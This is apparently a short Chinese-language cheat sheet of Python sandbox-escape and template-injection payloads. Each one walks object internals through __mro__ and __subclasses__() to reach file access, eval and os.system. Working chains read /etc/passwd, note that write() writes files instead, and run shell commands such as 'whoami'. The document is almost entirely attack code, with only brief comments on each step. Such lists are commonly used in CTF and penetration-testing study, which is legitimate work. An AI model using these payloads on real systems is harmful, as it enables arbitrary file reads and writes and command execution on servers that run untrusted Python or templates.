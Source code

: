 
### 常见可利用类

> 



```
''.__class__.__mro__[2].__subclasses__().index(file)

```

> 



```
''.__class__.__mro__[2].__subclasses__()[40]('&lt;File_To_Read&gt;').read()

```

> 



```
''.__class__.__mro__[2].__subclasses__()[91].get_data(0,"&lt;file_To_Read&gt;")

```

> 



```
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()    #将read() 修改为 write() 即为写文件

```

> 



```
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')

```

> 



```
查看 warnings.catch_warnings 方法的位置
[].__class__.__base__.__subclasses__().index(warnings.catch_warnings)

查看 linecatch 的位置
[].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')

查找os模块的位置
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.keys().index('os')

查找system方法的位置(在这里使用os.open().read()可以实现一样的效果,步骤一样,不再复述)
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.keys().index('system')

调用system方法
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')

```
